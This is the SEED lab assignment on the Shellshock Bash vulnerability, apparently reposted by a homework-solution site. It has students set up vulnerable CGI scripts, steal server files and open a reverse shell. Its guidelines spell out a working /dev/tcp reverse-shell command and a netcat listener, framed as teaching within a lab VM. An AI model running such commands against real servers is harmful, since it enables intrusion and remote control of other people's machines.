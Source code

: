 Download Link: https://assignmentchef.com/product/solved-csc482-homework3-shellshock-attack
<br>
On September 24, 2014, a severe vulnerability in Bash was identified. Nicknamed Shellshock, this vulnerability can exploit many systems and be launched either remotely or from a local machine. In this lab, students need to work on this attack, so they can understand the Shellshock vulnerability. The learning objective of this lab is for students to get a first-hand experience on this interesting attack, understand how it works, and think about the lessons that we can get out of this attack. The first version of this lab was developed on September 29, 2014, just five days after the attack was reported. It was assigned to the students in our Computer Security class on September 30, 2014. An important mission of the SEED project is to quickly turn real attacks into educational materials, so instructors can bring them into their classrooms in a timely manner and keep their students engaged with what happens in the real world. This lab covers the following topics:

<ul>

 <li>Shellshock</li>

 <li>Environment variables</li>

 <li>Function definition in Bash</li>

 <li>Apache and CGI programs</li>

</ul>

Readings and videos.      Detailed coverage of the Shellshock attack can be found in the following:

<ul>

 <li>Chapter 3 of the SEED Book, <em>Computer &amp; Internet Security: A Hands-on Approach</em>, 2nd Edition, by Wenliang Du. See details at https://www.handsonsecurity.net.</li>

 <li>Section 3 of the SEED Lecture at Udemy, <em>Computer Security: A Hands-on Approach</em>, by Wenliang Du. See details at https://www.handsonsecurity.net/video.html.</li>

</ul>

Lab environment. This lab has been tested on our pre-built Ubuntu 16.04 VM, which can be downloaded from the SEED website.

<h1>1          Lab Tasks</h1>

2.1       Task 1: Experimenting with Bash Function

The Bash program in Ubuntu 16.04 has already been patched, so it is no longer vulnerable to the Shellshock attack. For the purpose of this lab, we have installed a vulnerable version of Bash inside the /bin folder; its name is bashshellshock. We need to use this Bash in our task. Please run this vulnerable version of Bash like the following and then design an experiment to verify whether this Bash is vulnerable to the Shellshock attack or not.

$ /bin/bash_shellshock

Try the same experiment on the patched version of bash (/bin/bash) and report your observations.

2.2       Task 2: Setting up CGI programs

In this lab, we will launch a Shellshock attack on a remote web server. Many web servers enable CGI, which is a standard method used to generate dynamic content on Web pages and Web applications. Many CGI programs are written using shell scripts. Therefore, before a CGI program is executed, a shell program will be invoked first, and such an invocation is triggered by a user from a remote computer. If the shell program is a vulnerable Bash program, we can exploit the Shellshock vulnerable to gain privileges on the server.

In this task, we will set up a very simple CGI program (called myprog.cgi) like the following. It simply prints out “Hello World” using a shell script.

<table width="624">

 <tbody>

  <tr>

   <td width="260">#!/bin/bash_shellshockecho “Content-type: text/plain” echo echo echo “Hello World”</td>

   <td width="364">À</td>

  </tr>

 </tbody>

</table>

Please make sure you use /bin/bashshellshock in Line À, instead of using /bin/bash. The line specifies what shell program should be invoked to run the script. We do need to use the vulnerable Bash in this lab. Please place the above CGI program in the /usr/lib/cgi-bin directory and set its permission to 755 (so it is executable). You need to use the root privilege to do these, as the folder is only writable by the root. This folder is the default CGI directory for the Apache web server.

To access this CGI program from the Web, you can either use a browser by typing the following URL: http://localhost/cgi-bin/myprog.cgi, or use the following command line program curl to do the same thing:

$ curl http://localhost/cgi-bin/myprog.cgi

In our setup, we run the Web server and the attack from the same computer, and that is why we use localhost. In real attacks, the server is running on a remote machine, and instead of using localhost, we use the hostname or the IP address of the server.

2.3        Task 3: Passing Data to Bash via Environment Variable

To exploit a Shellshock vulnerability in a Bash-based CGI program, attackers need to pass their data to the vulnerable Bash program, and the data need to be passed via an environment variable. In this task, we need to see how we can achieve this goal. You can use the following CGI program to demonstrate that you can send out an arbitrary string to the CGI program, and the string will show up in the content of one of the environment variables.

<table width="624">

 <tbody>

  <tr>

   <td width="624">#!/bin/bash_shellshockecho “Content-type: text/plain” echoecho “****** Environment Variables ******”strings /proc/$$/environ                                                   À</td>

  </tr>

 </tbody>

</table>

In the code above, Line À prints out the contents of all the environment variables in the current process. If your experiment is successful, you should be able to see your data string in the page that you get back from the server. In your report, please explain how the data from a remote user can get into those environment variables.

2.4       Task 4: Launching the Shellshock Attack

After the above CGI program is set up, we can now launch the Shellshock attack. The attack does not depend on what is in the CGI program, as it targets the Bash program, which is invoked first, before the CGI script is executed. Your goal is to launch the attack through the URL http://localhost/cgi-bin/ myprog.cgi, such that you can achieve something that you cannot do as a remote user. In this task, you should demonstrate the following:

<ul>

 <li>Using the Shellshock attack to steal the content of a secret file from the server.</li>

 <li>Answer the following question: will you be able to steal the content of the shadow file /etc/shadow?</li>

</ul>

Why or why not?

<ul>

 <li>Task 5: Getting a Reverse Shell via Shellshock Attack</li>

</ul>

The Shellshock vulnerability allows attacks to run arbitrary commands on the target machine. In real attacks, instead of hard-coding the command in their attack, attackers often choose to run a shell command, so they can use this shell to run other commands, for as long as the shell program is alive. To achieve this goal, attackers need to run a reverse shell.

Reverse shell is a shell process started on a machine, with its input and output being controlled by somebody from a remote computer. Basically, the shell runs on the victim’s machine, but it takes input from the attacker machine and also prints its output on the attacker’s machine. Reverse shell gives attackers a convenient way to run commands on a compromised machine. Detailed explanation of how to create reverse shell can be found in Chapter 3 (§3.4.5) in the SEED book. We also summarize the explanation in the guideline section later.

In this task, you need to demonstrate how to launch a reverse shell via the Shellshock vulnerability in a CGI program. Please show how you do it. In your report, please also explain how you set up the reverse shell, and why it works. Basically, you need to use your own words to explain how reverse shell works in your Shellshock attack.

<ul>

 <li>Task 6: Using the Patched Bash</li>

</ul>

Now, let us use a Bash program that has already been patched. The program /bin/bash is a patched version. Please replace the first line of your CGI programs with this program. Redo Tasks 3 and 5 and describe your observations.

<h1>2          Guidelines: Creating Reverse Shell</h1>

The key idea of reverse shell is to redirect its standard input, output, and error devices to a network connection, so the shell gets its input from the connection, and prints out its output also to the connection. At the other end of the connection is a program run by the attacker; the program simply displays whatever comes from the shell at the other end, and sends whatever is typed by the attacker to the shell, over the network connection.

A commonly used program by attackers is netcat, which, if running with the “-l” option, becomes a TCP server that listens for a connection on the specified port. This server program basically prints out whatever is sent by the client, and sends to the client whatever is typed by the user running the server. In the following experiment, netcat (nc for short) is used to listen for a connection on port 9090 (let us focus only on the first line).

<table width="624">

 <tbody>

  <tr>

   <td width="624">Attacker(10.0.2.6):$ nc -l 9090 -v <strong> Waiting for reverse shell</strong>Connection from 10.0.2.5 port 9090 [tcp/*] acceptedServer(10.0.2.5):$ <strong> Reverse shell from 10.0.2.5. </strong>Server(10.0.2.5):$ ifconfig ifconfig eth23 Link encap:Ethernet HWaddr 08:00:27:fd:25:0f inet addr:<strong>10.0.2.5 </strong>Bcast:10.0.2.255 Mask:255.255.255.0 inet6 addr: fe80::a00:27ff:fefd:250f/64 Scope:Link …</td>

  </tr>

 </tbody>

</table>

The above nc command will block, waiting for a connection. We now directly run the following bash program on the Server machine (10.0.2.5) to emulate what attackers would run after compromising the server via the Shellshock attack. This bash command will trigger a TCP connection to the attacker machine’s port 9090, and a reverse shell will be created. We can see the shell prompt from the above result, indicating that the shell is running on the Server machine; we can type the ifconfig command to verify that the IP address is indeed 10.0.2.5, the one belonging to the Server machine. Here is the bash command:

Server(10.0.2.5):$ /bin/bash -i &gt; /dev/tcp/10.0.2.6/9090 0&lt;&amp;1 2&gt;&amp;1

The above command represents the one that would normally be executed on a compromised server. It is quite complicated, and we give a detailed explanation in the following:

<ul>

 <li>“/bin/bash -i”: The option i stands for interactive, meaning that the shell must be interactive (must provide a shell prompt).</li>

 <li>“&gt; /dev/tcp/10.0.2.6/9090”: This causes the output device (stdout) of the shell to be redirected to the TCP connection to 10.0.2.6’s port 9090. In Unix systems, stdout’s file descriptor is 1.</li>

 <li>“0&lt;&amp;1”: File descriptor 0 represents the standard input device (stdin). This option tells the system to use the standard output device as the stardard input device. Since stdout is already redirected to the TCP connection, this option basically indicates that the shell program will get its input from the same TCP connection.</li>

 <li>“2&gt;&amp;1”: File descriptor 2 represents the standard error stderr. This causes the error output to be redirected to stdout, which is the TCP connection.</li>

</ul>

In summary, the command “/bin/bash -i &gt; /dev/tcp/10.0.2.6/9090 0&lt;&amp;1 2&gt;&amp;1” starts a bash shell on the server machine, with its input coming from a TCP connection, and output going to the same TCP connection. In our experiment, when the bash shell command is executed on 10.0.2.5, it connects back to the netcat process started on 10.0.2.6. This is confirmed via the “Connection from 10.0.2.5 port 9090 [tcp/*] accepted” message displayed by netcat.